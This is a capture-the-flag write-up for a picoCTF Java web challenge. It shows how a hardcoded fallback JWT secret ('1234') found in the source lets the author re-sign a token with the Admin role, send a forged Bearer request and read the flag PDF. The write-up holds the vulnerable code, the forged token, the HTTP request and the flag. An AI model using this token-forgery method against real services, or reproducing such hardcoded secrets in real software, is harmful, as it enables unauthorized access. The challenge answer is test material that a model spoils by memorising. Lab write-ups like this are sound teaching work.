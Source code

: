 # Java Code Analysis!?!
BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!
Here are the credentials to get you started:
- Username: "user"
- Password: "user"

## Data
bookshelf-pico.zip

## Solution
On the website we see three different eBooks. One of them, the 'Flag' book, is only accessable for the admin. So to get the flag we to raise up our priviledges.

According to the hints there is something going on with the JWT (JSON Web Tokens). Those tokens are a standard for web authentification. If you login to a website, the server generates a token for the web response. If the client connects the server with a valid token, he will be autehnticated by the server.

If we login to the website and analyse the traffic with zap, we find the following token in the response to the login POST from the client:
```
{"type":"SUCCESS","payload":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY4MDU0MDYwOSwiaWF0IjoxNjc5OTM1ODA5LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.kOni4aqUFqgp4myBdnwUJqTvdmV4vNQaFC7oKqCfR9o"}
```

The token is structured in three parts, sperated by a dot: HEADER (ALGORITHM & TOKEN TYPE), PAYLOAD (DATA) and VERIFY SIGNATURE. At https://jwt.io/#debugger-io the can analyze the token. The payload is the most interesting for us at this part:
```
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1680540609,
  "iat": 1679935809,
  "userId": 1,
  "email": "user"
}
```

This payload could be edited and we can generate a new token. But we also need a keyword, which is given by the server for the verify signature. Maybe we can find it in the source code.

In the file 'JavaCodeAnalysis/bookshelf-pico/src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java' we find indeed an unsecure function:
```java
    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }
```

The code tries to generate the secret with a file 'server\_secret.txt' and if this file is not given, it will use the function shown above:
```java
    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
```

So probably this is our key to verify the JWT signature.

In 'JavaCodeAnalysis/bookshelf-pico/src/main/java/io/github/nandandesai/pico/security/JwtService.java' we can find more information about the structure of the token, but there is no difference to the token we already decoded.

The file 'JavaCodeAnalysis/bookshelf-pico/src/main/java/io/github/nandandesai/pico/configs/BookShelfConfig.java' shows some information about the user configuration. The important part is the creation of the admin user:
```java
                User admin = new User();
                admin.setProfilePicName("default-avatar.png")
                        .setRole(AdminRole)
                        .setLastLogin(LocalDateTime.now())
                        .setFullName("Admin")
                        .setEmail("admin")
                        .setPassword(passwordEncoder.encode("<redacted>"));
                userRepository.save(admin);
```

So with this informations we can create a new token:
```
Header
{
  "typ": "JWT",
  "alg": "HS256"
}

Payload
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1680538930,
  "iat": 1679934130,
  "userId": 2,
  "email": "admin"
}

Signature
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  1234
)
```
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2ODA1Mzg5MzAsImlhdCI6MTY3OTkzNDEzMCwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.NXhqBffCO2UP3ImWeCg7UJR5c0UHRH_SFY9bzTptmPY
```

Via zap we can use this token to edit a GET request to the website. It uses our old token, so we can just replace it:
```
GET http://saturn.picoctf.net:51082/base/books HTTP/1.1
Host: saturn.picoctf.net:51082
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2ODA1Mzg5MzAsImlhdCI6MTY3OTkzNDEzMCwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.NXhqBffCO2UP3ImWeCg7UJR5c0UHRH_SFY9bzTptmPY
Connection: keep-alive
Referer: http://saturn.picoctf.net:51082/
Content-Length: 0
```

Our responce looks good. We get an success and a list of the books
```
{"type":"SUCCESS","payload":[{"id":3,"title":"Little Brother","desc":"Little Brother is a novel by Cory Doctorow, published by Tor Books. It was released on April 29, 2008. The novel is about four teenagers in San Francisco who, in the aftermath of a terrorist attack on the San Francisco–Oakland Bay Bridge and BART system, defend themselves against the Department of Homeland Security's attacks on the Bill of Rights.","role":"Free"},{"id":4,"title":"The Future of the Internet and How to Stop It","desc":"The Future of the Internet and How to Stop It is a book published in 2008 by Yale University Press and authored by Jonathan Zittrain. The book discusses several legal issues regarding the Internet.","role":"Premium"},{"id":5,"title":"Flag","desc":"You need to have Admin role to access this special book!","role":"Admin"}]}
```

To access the 'Flag' book we have to call the URL `http://saturn.picoctf.net:51082/base/books/pdf/5`. We can see this also in zap if we access a book for that we have the permissions. So if we access the URL with our admin token, we get a valid response with the PDF in the body. If we scroll over the body in zap we can find our flag:
```
>>
stream
BT
/F1 20 Tf
1 0 0 1 50 752 Tm
12 TL
(Great job! Here's your flag:)'
()'
()'
(picoCTF{w34k_jwt_n0t_g00d_602ce414})'
ET
endstream
endobj
8 0 obj
119
endobj
3 0 obj
<<
```
